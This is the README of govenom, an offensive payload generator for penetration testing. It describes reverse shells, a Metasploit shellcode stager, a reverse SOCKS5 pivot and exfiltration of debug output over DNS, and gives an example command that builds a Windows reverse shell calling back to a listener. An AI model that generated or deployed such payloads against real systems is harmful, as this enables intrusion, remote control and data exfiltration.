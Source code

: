 <p align="center">
  <img alt="govenom Logo" src="https://repository-images.githubusercontent.com/208469800/1d777d80-e3d9-11ea-8f39-739f2e6af4d9" height="140" />
  <h1 align="center"><b>govenom</b></h1>
  <p align="center"><i>No clue about the target environment, installed shells, firewall rules? Uncommon CPU architecture?</br>Govenom has you covered!</i></p>
  <p align="center">
    <a href="https://github.com/erikgeiser/govenom/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/erikgeiser/govenom.svg?style=for-the-badge"></a>
    <a href="/LICENSE.md"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Check"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Check?label=Check&style=for-the-badge"></a>
    <a href="https://github.com/erikgeiser/govenom/actions?workflow=Build"><img alt="GitHub Actions" src="https://img.shields.io/github/workflow/status/erikgeiser/govenom/Build?label=Build&style=for-the-badge"></a>
    <a href="https://goreportcard.com/report/github.com/erikgeiser/govenom"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/erikgeiser/govenom?style=for-the-badge"></a>
  </p>
</p>

`govenom` is a `msfvenom`-inspired payload generator written in
Go. This makes it easy to cross-compile static binaries for a
variety of target platforms. It is also much faster than `msfvenom`.

## Payloads

Currently, four payloads are supported:

- **rsh:** A simple reverse shell. It selects one of the most common
  shells binaries and makes it available via TCP or UDP connection.
- **xrsh:** An extended robust reverse shell. A simple heuristic
  determines the most suitable shell executable, taking shells that
  are installed but not in `$PATH` into account. In contrast to most
  other available shells out there, additional info can be sent via
  alternative communication channels via the exfiltration mechanism
  (see relevant section below). For example, if no shell could be
  detected or the connection could not be established due to a
  firewall, the corresponding error can be exfiltrated via DNS.
- **stager**: A shellcode stager that is compatible with Metasploits
  `exploits/multi/handler` with a `meterpreter/reverse_tcp` payload.
  It first reads a 4 Byte shellcode length and then the shellcode
  itself from a TCP connection and executes it. Currently, this is
  only available for Windows targets.
- **socks5**: A `socks5` server via a reverse TCP connection. It
  connects back to the `gateway` tool and provides network access
  to the target's network. The `socks5` server on the target
  system can only be accessed by connecting to the gateway listener
  opened by the govenom `gateway` tool.

## Tools

`govenom` also provides some tools to work with the payloads:

- **dnslogger:** The `dnslogger` tool decodes and recombines messages
  that were exfiltrated via DNS.

- **pusher:** The `pusher` tool can serve and deliver `meterpreter`
  shellcode generated using `msfvenom` to the `govenom` stager payload.

- **gateway:** the gateway for the `socks5` payload. It waits for
  the payload to connect back and starts a lister which forwards
  connection to the payload's `socks5` server and thus acts as a
  gateway into the target's network.

## Debug Exfiltration

Sometimes a shell you placed on target system does not appear to
connect back. Most of the time this results in a lot of trial and
error. Maybe the firewall blocks TCP connections or maybe just one
of the ports you tried. Maybe you expected `powershell` to be
present but only `cmd` is there. The solution to problem is the
`govenom` debug log exfiltration mechanism which can optionally be
used with `xrsh` and `stager` payloads. It lets you configure an
arbitrary amount of exfiltration strategies of the following types:

- **`stdout`/`stderr`:** If you can capture the output of your
  payload when it's executed, you can output debug logs via
  `stdout/stderr`.

- **DNS:** The most useful exfiltration type because noone blocks
  DNS. Messages are encoded and split into parts which can be put
  together again by the `govenom` tool `dnslogger` (see section
  below).

- **File:** Write the debug information into a file on the target
  system. This is for example useful if you can recover files via a
  local file inclusion vulnerability.

- **Net (`dial`):** Send the debug log via a TCP or UDP connection
  that's different from the original connect back connection.

## Building

`govenom` can be built in two ways. It either generate payloads
directly from the source code in the `./payloads` folder of this
repos or it can be built with the source code embedded such that
it works as a standalone binary. The binaries distributed with
releases are standalone binaries.

```bash
# build a govenom binary that uses the payload code
# directly from the repository
go build

# build a standalone govenom binary (see the standalone
# Makefile section for the commands to build on Windows)
make standalone
```

## Usage

Run `go run govenom.go` for detailed usage information. The following
example generates the extended reverse shell for a 32-Bit Windows
target that connects back to `127.0.0.1:1337` and uses multiple debug
exfiltration strategies:

```bash
# generate a payload
govenom payload xrsh -d 127.0.0.1:1337 \
    --os windows --arch 386 \
    --exfil dns:example.com,stdout,dial:udp:127.0.0.1:1234 \
    -o revsh.exe

# run a tool
govenom tool dnslogger
```

**Note:** Go has to be installed to run `govenom` itself and it is
also used by `govenom` itself to build the selected payloads.

## FAQ:

---

**The `govenom` integrity cannot be verified on macOS**

macOS adds a quarantine attribute to downloaded binaries
which you can remove with the following command:

```
xattr -d com.apple.quarantine ./govenom
```

---

## Plans

- Connection encryption
- Reverse shell listener like `ncat` with logging capabilities
- Linux support for the `stager` payload

Thanks to [https://quasilyte.dev]() for the logo.
